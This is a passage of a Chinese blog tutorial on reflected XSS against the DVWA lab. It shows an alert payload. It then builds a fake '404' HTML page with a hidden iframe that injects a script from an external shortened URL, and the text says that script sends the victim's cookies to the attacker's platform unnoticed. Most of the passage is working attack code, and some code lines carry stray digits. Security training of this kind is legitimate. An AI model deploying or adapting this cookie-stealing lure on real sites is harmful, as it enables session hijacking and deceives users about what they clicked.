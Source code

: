 

该链接的为：[http://127.0.0.1/vulnerabilities/xss\_r/?name=<script>alert(/xss/)</script>](http://127.0.0.1/vulnerabilities/xss_r/?name= "http://127.0.0.1/vulnerabilities/xss_r/?name=<script>alert(/xss/)</script>")



![](https://img-blog.csdnimg.cn/20190128204637630.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



那么，我们要怎么构造恶意代码来诱使用户点击并且用户点击后不会发现点击了恶意链接呢？



我们构造了如下代码，将其保存为html页面，然后放到我们自己的服务器上，做成一个链接。当用户登录了存在漏洞的网站，并且用户点击了我们构造的恶意链接时，该链接页面会偷偷打开iframe框架，iframe会访问其中的链接，然后执行我们的js代码。该js代码会把存在漏洞网站的cookie发送到我们的平台上，但是用户却浑然不知，他会发现打开的是一个404的页面！



```
<iframe src="http://127.0.0.1/vulnerabilities/xss_r/?name=<script src=https://t.cn/EtxZt8T></script>" style="display:none;"></iframe>
```


```
<!DOCTYPE html>      
<html>      
<head>      
    <meta http-equiv="Content-Type" content="text/html; charset=UTF-8">      
    <meta http-equiv="X-UA-Compatible" content="IE=edge,chrome=1">      
    <title>404 页面不存在 </title>      
    <style type="text/css">      
        body{font:14px/1.5 'Microsoft YaHei','微软雅黑',Helvetica,Sans-serif;min-width:1200px;background:#f0f1f3;}      
        .error-page{background:#f0f1f3;padding:80px 0 180px}      1
        .error-page-main{position:relative;background:#f9f9f9;margin:0 auto;width:617px;-ms-box-sizing:border-box;-webkit-box-sizing:border-box;-moz-box-sizing:border-box;box-sizing:border-box;padding:50px 50px 70px}      1
        .error-page-main h3{font-size:24px;font-weight:400;border-bottom:1px solid #d0d0d0}      1
        .error-page-main h3 strong{font-size:54px;font-weight:400;margin-right:20px}      1
    </style>      1
</head>      1
<body>      1
<iframe src="http://127.0.0.1/vulnerabilities/xss_r/?name=<script src=https://t.cn/EtxZt8T></script>" style="display:none;"></iframe>      1
<div class="error-page">      1
    <div class="error-page-container">      1
        <div class="error-page-main">      2
            <h3>      2
                <strong>404</strong>很抱歉，您要访问的页面不存在！      2
            </h3>       2
        </div>      2
    </div>      2
</div>      2
</body>      2
</html>
```
